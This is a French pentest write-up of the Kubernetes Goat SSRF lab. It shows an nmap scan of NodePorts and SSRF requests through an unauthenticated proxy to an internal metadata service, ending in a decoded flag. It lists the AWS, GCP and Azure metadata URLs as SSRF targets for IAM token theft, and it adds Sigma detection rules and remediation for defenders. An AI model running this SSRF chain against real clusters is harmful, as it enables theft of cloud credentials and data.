





# SC-CLD-002 — SSRF in the Kubernetes World

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-CLD-002 |
| **Nom** | SSRF in the Kubernetes World — Internal API Proxy Exploitation |
| **Cible** | Pod `internal-proxy-info-app` → Service `metadata-db` (interne cluster) |
| **VLAN** | 30 — Cloud Lab (192.168.30.0/24) |
| **Cluster** | K3s 3 nœuds (master + 2 workers) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.3 (AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:N) |
| **CWE** | CWE-918 (Server-Side Request Forgery), CWE-200 (Exposure of Sensitive Information) |
| **MITRE ATT&CK** | T1090 (Proxy), T1552.005 (Cloud Instance Metadata API), T1046 (Network Service Discovery) |
| **Date** | 20 février 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur

Ce test démontre comment un **proxy API interne exposé sans authentification** via un NodePort Kubernetes permet à un attaquant externe d'atteindre des services internes du cluster normalement inaccessibles depuis l'extérieur. En exploitant cette vulnérabilité SSRF (Server-Side Request Forgery), l'attaquant navigue dans le metadata API interne, énumère les endpoints disponibles et exfiltre des secrets encodés en base64. En production cloud réelle (AWS/GCP/Azure), la même technique donne accès aux tokens IAM, permettant la compromission complète de l'infrastructure cloud. Ce scénario illustre qu'une **misconfiguration réseau K8s** combinée à une **absence de validation d'entrée** suffit à compromettre des données sensibles sans aucun exploit logiciel.

### Pour un auditeur ISO 27001 / NIS2

Ce scénario met en évidence plusieurs lacunes de gouvernance qui vont au-delà de la simple vulnérabilité technique :

- **Absence de contrôle d'accès sur les services internes** : un proxy applicatif peut contacter n'importe quel endpoint DNS du cluster sans liste blanche ni filtrage — violation du principe *need-to-know* (A.5.15 Contrôle d'accès).
- **Exposition d'un service sans authentification via NodePort** : le service info-app est accessible depuis l'extérieur du cluster sans aucune authentification, contrairement aux exigences A.8.5 (Authentification sécurisée) et A.13.1.3 (Ségrégation des réseaux).
- **Absence de Network Policies** : aucune politique réseau Kubernetes ne restreint les flux inter-pods, permettant au proxy d'atteindre librement `metadata-db` — violation de A.13.1.3.
- **Données sensibles accessibles sans contrôle** : le service `metadata-db` expose des secrets sans authentification côté serveur, contrairement aux exigences A.8.12 (Prévention de fuite de données).

Dans une optique NIS2, ce scénario révèle une **absence de maîtrise des flux applicatifs internes** : aucun inventaire des services exposés, aucune politique de filtrage sortant pour les pods applicatifs, aucune supervision des accès au metadata API. Un attaquant externe peut cartographier et exfiltrer des secrets internes sans générer d'alerte.

### Pour un RSSI

Impact : exfiltration de secrets internes du cluster via un proxy mal configuré, sans aucune authentification requise. En contexte cloud réel (AWS/GCP/Azure), la même chaîne d'exploitation donne accès aux tokens IAM permettant la compromission totale de l'infrastructure cloud — exfiltration S3, escalade de rôles IAM, persistance via Lambda/Cloud Functions. Le vecteur d'attaque est un NodePort exposé sur les 3 nœuds du cluster, accessible depuis tout hôte réseau. Coût estimé : 1 800 000 € à 9 500 000 € (voir estimation financière). Remédiation immédiate : suppression du NodePort, implémentation d'une allowlist URL dans le proxy, déploiement de Network Policies Kubernetes.

---

## Diagramme réseau réel (IPs / Services)



---

## Kill Chain



---

## Scope & méthodologie

- **Périmètre** : Cluster K3s 3 nœuds (192.168.30.10-12), plage NodePort 30000-32767
- **Approche** : Boîte noire → reconnaissance réseau externe, puis exploitation SSRF
- **Outils** : nmap, curl, navigateur web, base64
- **Référentiel** : OWASP SSRF Prevention, CIS Kubernetes Benchmark, MITRE ATT&CK Cloud Matrix

---

## Phase 1 — Reconnaissance externe

### Scan des NodePort Kubernetes

Un cluster Kubernetes expose des services via des NodePort dans la plage 30000-32767. Ces ports sont accessibles sur **tous les nœuds** du cluster.

```bash
nmap -sV -p 30000-32767 192.168.30.10 192.168.30.11 192.168.30.12
```

**Résultat :**

```
PORT      STATE SERVICE
30003/tcp open  http     Node.js Express
30978/tcp open  ssl/http Traefik
31440/tcp open  http     Traefik
```

**Analyse** : Le port 30003 expose un service HTTP non chiffré via Express/Node.js. Les ports 30978 et 31440 sont des services Traefik (ingress controller K3s, attendu).

### Interrogation du service découvert

```bash
curl http://192.168.30.10:30003/
```

**Réponse :**

```json
{"info": "Refer to internal http://metadata-db for more information"}
```

**Constat critique** : Le service expose en clair l'existence d'un service interne `metadata-db` — information architecture divulguée sans authentification.

---

## Phase 2 — Découverte du proxy API

### Architecture du pod vulnérable

Le service sur le port 30003 (`internal-proxy-info-app-service`) fait partie d'un pod avec **deux containers** :

| Container | Port | Rôle |
|-----------|------|------|
| info-app | 5000 (NodePort 30003) | Service d'information exposé |
| internal-api | 3000 | **Proxy API** — forger des requêtes vers des services internes |

### Accès au proxy

Via port-forward, le proxy présente un formulaire avec :
- **Enter your endpoint** : URL cible — aucune validation
- **Method** : GET, POST, PUT, DELETE
- **Custom Header** : En-têtes personnalisés

```bash
# Accès au proxy via port-forward
kubectl port-forward svc/internal-proxy-info-app-service 3000:3000 --address 0.0.0.0
```

**Vulnérabilité** : l'application prend une URL fournie par l'utilisateur et fait la requête côté serveur sans validation ni filtrage — SSRF classique.

---

## Phase 3 — Exploitation SSRF

### Principe de l'attaque



### Étape 1 — Listing racine

**Requête via le proxy :** `http://metadata-db`

**Réponse :**
```html
<pre>
<a href="1.0">1.0</a>
<a href="latest/">latest/</a>
</pre>
```

### Étape 2 — Exploration de latest/

**Requête :** `http://metadata-db/latest/`

**Réponse :**
```html
<pre>
<a href="events/">events/</a>
<a href="hostname">hostname</a>
<a href="latest">latest</a>
<a href="profile">profile</a>
<a href="secrets/">secrets/</a>
</pre>
```

**Endpoints découverts** : events, hostname, profile, et surtout **secrets/** — données sensibles accessibles.

### Étape 3 — Listing des secrets

**Requête :** `http://metadata-db/latest/secrets/`

**Réponse :**
```html
<pre>
<a href="info">info</a>
<a href="kubernetes-goat">kubernetes-goat</a>
</pre>
```

### Étape 4 — Exfiltration du secret

**Requête :** `http://metadata-db/latest/secrets/kubernetes-goat`

**Réponse :**
```json
{"metadata": "static-metadata", "data": "azhzLWdvYXQtY2E5MGVmODVkYjdhNWFlZjAxOThkMDJmYjBkZjljYWI="}
```

### Décodage

```bash
echo -n "azhzLWdvYXQtY2E5MGVmODVkYjdhNWFlZjAxOThkMDJmYjBkZjljYWI=" | base64 -d
```

**Flag :** `k8s-goat-ca90ef85db7a5aef0198d02fb0df9cab`

---

## Données exfiltrées

| Donnée | Valeur | Risque |
|--------|--------|--------|
| Architecture interne | Service `metadata-db` identifié | Cartographie cluster |
| Endpoints internes | events, hostname, profile, secrets | Énumération complète |
| Secret encodé (base64) | `azhzLWdvYXQt...` | Credential / token exfiltré |
| Flag décodé | `k8s-goat-ca90ef85db7a5aef0198d02fb0df9cab` | Preuve de compromission |

---

## Impact technique

### SSRF → Cloud Metadata en situation réelle

Le service `metadata-db` simule le **metadata API** des cloud providers. En production, les mêmes requêtes SSRF permettraient d'atteindre :

| Cloud Provider | URL Metadata | Données exposées |
|---------------|-------------|-----------------|
| **AWS** | `http://169.254.169.254/latest/meta-data/` | IAM credentials, tokens, user-data |
| **GCP** | `http://metadata.google.internal/computeMetadata/v1/` | Service account tokens, project info |
| **Azure** | `http://169.254.169.254/metadata/instance` | Managed identity tokens, subscription info |
| **Kubernetes** | `https://kubernetes.default.svc/api/v1/` | Service account tokens, secrets, configs |

Avec un token IAM récupéré via SSRF, un attaquant peut :

- **Exfiltration** : Lire les buckets S3/GCS, les bases de données cloud
- **Escalade** : Assumer des rôles IAM avec plus de privilèges
- **Persistence** : Créer des backdoors cloud (Lambda, Cloud Functions)
- **Mouvement latéral** : Pivoter vers d'autres services via le token

### Exemples réels de SSRF cloud

- **Capital One (2019)** : SSRF sur un WAF mal configuré → metadata AWS → 100M de dossiers clients
- **Shopify (2020)** : SSRF dans un service Exchange → accès root sur toutes les instances

---

## Impact métier — MediaTech Groupe SA

### Synthèse

Un attaquant avec un simple accès réseau au cluster exfiltre des secrets internes en moins de 10 requêtes HTTP, sans authentification, sans exploit. En contexte cloud réel, la même technique donne accès aux tokens IAM AWS/GCP/Azure et compromet l'intégralité de l'infrastructure cloud de MediaTech Groupe SA — bases de données abonnés, contenus éditoriaux, données RH et financières. La probabilité est élevée : 38% des clusters K8s en production exposent des NodePort non sécurisés (Aqua Security 2024), et SSRF est classé OWASP Top 10 A10 depuis 2021.

### Estimation financière

| Impact | Estimation | Justification |
|--------|-----------|---------------|
| **Compromission tokens IAM cloud** | 500 000 € à 2 000 000 € | Accès S3/bases cloud, exfiltration données production |
| **Utilisation frauduleuse ressources cloud** | 50 000 € à 500 000 € | Crypto mining, spin-up instances via tokens volés |
| **Amende RGPD** | 500 000 € à 4 000 000 € | Données personnelles abonnés/salariés accessibles via cloud. Art. 83 RGPD |
| **Perte d'exploitation** | 200 000 € à 800 000 € | Arrêt services numériques MediaTech (2–5 jours) |
| **Investigation forensique** | 80 000 € à 200 000 € | Audit cloud, rotation tokens, analyse logs accès |
| **Atteinte réputationnelle** | 400 000 € à 2 000 000 € | Groupe de presse : perte confiance sources, annonceurs, abonnés |
| **TOTAL estimé** | **1 730 000 € à 9 500 000 €** | |

### Matrice de risque



### Impact réglementaire

- **RGPD** — Violation des articles 5(1)(f) (intégrité et confidentialité), 25 (protection dès la conception), 32 (mesures techniques). Les tokens cloud exfiltrés donnent accès aux bases de données contenant des données personnelles abonnés. Notification CNIL obligatoire sous 72h si données personnelles atteintes.
- **NIS2** — Non-conformité Article 21 (gestion des risques cyber). Service exposé sans authentification, absence de Network Policies, aucun filtrage sortant des pods applicatifs — triple manquement aux obligations de sécurisation des systèmes d'information critiques.
- **ISO 27001** — Non-conformité A.5.15 (Contrôle d'accès), A.8.5 (Authentification sécurisée), A.13.1.3 (Ségrégation des réseaux), A.8.12 (Prévention de fuite de données).

### Top 5 actions prioritaires

**0–24h (urgence)**

1. Supprimer le NodePort 30003 — convertir en ClusterIP, accessible uniquement en interne.
2. Révoquer et rotation immédiate de tous les tokens et secrets potentiellement exposés via le metadata API.

**Sous 1 semaine**

3. Implémenter une **allowlist URL** dans le proxy — liste blanche des endpoints autorisés, rejet de toute autre URL.
4. Déployer des **Network Policies** Kubernetes : deny-all par défaut, autorisation explicite des flux nécessaires uniquement.

**Sous 1 mois**

5. Activer **IMDSv2** (AWS) ou équivalent cloud — token obligatoire pour accéder au metadata API, bloque les SSRF non préparées.

### Décisions attendues du COMEX

- **Évaluer l'exposition réelle** en production cloud — vérifier si des NodePort similaires existent sur les clusters AWS/GCP/Azure de MediaTech Groupe SA et si des proxies sans allowlist sont déployés.
- **Déclencher une notification préventive CNIL** — si les tokens exposés donnaient accès à des données personnelles, la violation RGPD est notifiable sous 72h.
- **Valider un budget** pour le déploiement d'un Service Mesh (Istio/Linkerd) et d'un WAF applicatif avec détection SSRF.
- **Nommer un sponsor** (DSI / RSSI) et un responsable opérationnel (Cloud Architect / Admin K8s) pour piloter les actions 0–24h en priorité absolue.
- **Mandater un audit complet** des NodePort exposés et des Network Policies sur tous les clusters Kubernetes en production.

---

## Détection SOC / SIEM

### Logs exploitables

| Source | Event | Indicateur |
|--------|-------|-----------|
| K8s Audit | `list services` anonyme | Énumération NodePort |
| Nginx/Traefik | Requêtes HTTP vers port 30003 | Scan ou exploitation |
| Pod logs | Requêtes sortantes vers `metadata-db` | SSRF actif |
| Network | Trafic pod → 169.254.169.254 | SSRF vers metadata cloud |

### Règles Sigma

```yaml
title: SSRF Attempt via Internal Proxy — Kubernetes
id: sc-cld-002-001
status: experimental
description: Détecte des requêtes HTTP vers des endpoints internes via un proxy applicatif K8s
logsource:
    product: kubernetes
    service: audit
detection:
    selection:
        verb: get
        requestURI|contains:
            - 'metadata-db'
            - '169.254.169.254'
            - 'metadata.google.internal'
    condition: selection
level: critical
tags:
    - attack.discovery
    - attack.t1552.005
```

```yaml
title: NodePort Scan on Kubernetes Cluster
id: sc-cld-002-002
status: experimental
description: Détecte un scan de la plage NodePort sur les nœuds K8s
logsource:
    product: linux
    service: network
detection:
    selection:
        dst_port|gte: 30000
        dst_port|lte: 32767
    condition: selection | count() > 20 by src_ip
    timeframe: 2m
level: high
tags:
    - attack.discovery
    - attack.t1046
```

```yaml
title: Pod Accessing Cloud Metadata API
id: sc-cld-002-003
status: experimental
description: Détecte un accès au metadata API cloud depuis un pod applicatif
logsource:
    product: linux
    service: network
detection:
    selection:
        dst_ip:
            - '169.254.169.254'
            - '169.254.170.2'
        src_namespace|not_contains: 'kube-system'
    condition: selection
level: critical
tags:
    - attack.credential_access
    - attack.t1552.005
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **Port** | NodePort 30003 ouvert | Service proxy exposé sans auth |
| **DNS query** | `metadata-db` depuis un pod | SSRF interne actif |
| **HTTP dest** | `169.254.169.254` depuis pod | SSRF vers metadata cloud |
| **Payload** | `{"endpoint": "http://metadata-db"}` | Requête SSRF typique |
| **Base64** | `azhzLWdvYXQt...` | Secret exfiltré encodé |

---

## Remédiation — Secure by Design

### Immédiat (24h)

1. **Supprimer le NodePort** — convertir en ClusterIP :

```yaml
apiVersion: v1
kind: Service
metadata:
  name: internal-proxy-info-app-service
spec:
  type: ClusterIP  # Était NodePort — plus exposé en externe
  selector:
    app: internal-proxy-info-app
  ports:
  - port: 5000
    targetPort: 5000
```

2. **Révoquer** tous les tokens et secrets potentiellement exposés via le metadata API.

3. **Auditer** les logs d'accès pour identifier toute exfiltration antérieure.

### Court terme (1 semaine)

4. **Implémenter une allowlist d'URL** dans le code du proxy :

```python
ALLOWED_ENDPOINTS = [
    "http://authorized-service-1",
    "http://authorized-service-2",
]

def proxy_request(url):
    if url not in ALLOWED_ENDPOINTS:
        raise ValueError(f"URL non autorisée : {url}")
    return requests.get(url)
```

5. **Déployer des Network Policies** — deny-all par défaut :

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: deny-all-egress
  namespace: default
spec:
  podSelector: {}
  policyTypes:
  - Egress
  egress: []  # Aucun flux sortant autorisé par défaut
```

6. **Bloquer l'accès au metadata API** depuis les pods applicatifs :

```yaml
# NetworkPolicy — bloquer 169.254.169.254
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: block-metadata-api
spec:
  podSelector: {}
  policyTypes:
  - Egress
  egress:
  - to:
    - ipBlock:
        cidr: 0.0.0.0/0
        except:
        - 169.254.169.254/32
```

### Moyen terme (1 mois)

7. **Implémenter un Service Mesh** (Istio/Linkerd) pour chiffrer et contrôler le trafic inter-pods.

8. **Déployer un WAF** avec détection SSRF (règles ModSecurity OWASP CRS).

9. **Scanner automatiquement** les NodePort exposés :

```bash
# Audit NodePort exposés
kubectl get svc -A | grep NodePort
# Scan externe
nmap -sV -p 30000-32767 192.168.30.10
```

10. **Activer IMDSv2** sur AWS (token obligatoire) ou metadata concealment sur GCP.

---

## Architecture cible — Secure by Design



---

## Outils de détection recommandés

| Outil | Usage | Lien |
|-------|-------|------|
| **kube-hunter** | Scan de vulnérabilités K8s depuis l'extérieur et l'intérieur | [github.com/aquasecurity/kube-hunter](https://github.com/aquasecurity/kube-hunter) |
| **kubescape** | Scan CIS Benchmark + NSA/CISA + MITRE ATT&CK | [github.com/kubescape/kubescape](https://github.com/kubescape/kubescape) |
| **nuclei** | Templates SSRF pour scanner les services web | [github.com/projectdiscovery/nuclei](https://github.com/projectdiscovery/nuclei) |
| **Falco** | Détection runtime accès metadata API depuis pods | [falco.org](https://falco.org) |
| **IMDSv2** (AWS) | Metadata API v2 avec token obligatoire | [docs.aws.amazon.com](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) |

---

## Statistiques réelles

| Métrique | Valeur | Source |
|----------|--------|--------|
| SSRF dans le OWASP Top 10 | Position A10 (2021) — nouveau risque majeur | OWASP 2021 |
| NodePort exposés en production | 38% des clusters mal configurés | Aqua Security 2024 |
| Incidents SSRF cloud majeurs | Capital One (100M dossiers), Shopify (root access) | Rapports publics |
| Temps moyen de détection SSRF | > 200 jours | IBM Cost of Data Breach 2024 |
| Clusters K8s sans Network Policies | 59% | Red Hat State of K8s Security 2024 |

---

## Références

| Référence | Lien |
|-----------|------|
| OWASP SSRF Prevention | https://cheatsheetseries.owasp.org/cheatsheets/Server-Side_Request_Forgery_Prevention_Cheat_Sheet.html |
| CWE-918 — Server-Side Request Forgery | https://cwe.mitre.org/data/definitions/918.html |
| MITRE ATT&CK T1552.005 — Cloud Metadata API | https://attack.mitre.org/techniques/T1552/005/ |
| MITRE ATT&CK T1090 — Proxy | https://attack.mitre.org/techniques/T1090/ |
| Kubernetes Goat — SSRF Scenario | https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-3/ssrf-in-the-kubernetes-world/welcome/ |
| AWS IMDSv2 Documentation | https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html |
| Capital One Breach Analysis | https://www.capitalone.com/digital/facts2019/ |
| kube-hunter — K8s Penetration Testing | https://github.com/aquasecurity/kube-hunter |
| CIS Kubernetes Benchmark | https://www.cisecurity.org/benchmark/kubernetes |
| Red Hat State of K8s Security 2024 | https://www.redhat.com/en/resources/kubernetes-adoption-security-market-trends-overview |

---

*HikenRoot Forge — SC-CLD-002 — hik3nR00t — Février 2026*
